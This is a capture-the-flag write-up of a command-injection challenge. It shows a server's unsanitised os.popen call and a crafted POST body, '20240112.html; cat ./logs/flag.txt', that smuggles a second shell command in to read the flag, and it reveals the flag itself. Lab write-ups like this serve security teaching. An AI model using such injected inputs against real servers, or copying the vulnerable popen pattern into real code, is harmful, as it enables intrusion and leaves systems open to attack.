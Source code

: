 ## WEB-1: Command Injection
**Description:**
This challenge demonstrates an insecure server-side implementation of `os.popen()` that leads to command injection via unvalidated user input.
<details> <summary><b>Reveal Hidden Flag</b></summary> flag{02c0953556} </details></br>

**Solution Summary:**
- By analyzing client.py and server.py, I discovered the existence of /view and /logs endpoints.
- The `/view` endpoint handles `POST` requests with a date string in the body.
- The server constructs a shell command using this user-supplied input without sanitization, leading to command injection.
- Exploiting this, I injected `; cat ./logs/flag.txt;` to read the flag.

**Exploitation Steps:**
1. Inspected the `client.py` and `server.py` files in the `/ctf` directory, revealed the following paths:
    ```plaintext
    /
    /view
    /logs
    ```
2. Probing the Endpoints Using `wget`:
    ```bash
    wget http://192.168.1.2/         # Displays welcome message with hint about /view
    wget http://192.168.1.2/view     # Shows list of log files in ./logs/
    wget http://192.168.1.2/logs     # No response (likely not a valid route)
    ```

3. Testing `POST` Requests:
    ```bash
    wget http://192.168.1.2/view --post-data=20240112       # Displays 20240112.html
    wget http://192.168.1.2/view --post-data=flag           # Returns 404
    wget http://192.168.1.2/view --post-data=flag.txt       # Also fails
    ```

4. Identifying the Vulnerability
    - Found this in server.py:
        ```python
        result = os.popen(f"cat ./logs/{date}.html").read()
        ```
    - The date input is inserted directly into a shell command = **Command Injection Possible**.

5. Log Directory Contents
    - Visiting `/view` via browser runs:
        ```bash
        ls -l ./logs/
        ```
    - The output includes:
        ```html
        -rw-rw-r-- 1 1000 1000 733 Jan 12 07:51 20240112.html
        -rw-rw-r-- 1 1000 1000  16 Apr 29 2025 flag.txt
        ```

6. Crafting the Exploit
    - Copied `client.py` to `post.py` to modify and inject a command via the POST body.
    - Original:
        ```python
        req = "POST /view HTTP/1.1\r\nHost: localhost\r\n\r\n20240112"
        ```
    - Injected:
        ```python
        req = "POST /view HTTP/1.1\r\nHost: localhost\r\n\r\n20240112.html; cat ./logs/flag.txt"
        ````

7. Code Context (from server.py)
    ```python
    date = request.body.strip()
    result = os.popen(f"cat ./logs/{date}.html").read()
    ```
    Because the body is used unsafely in a shell command, injection like `; cat ./logs/flag.txt;` works.

8. Result
The server returned the contents of flag.txt in the HTTP response.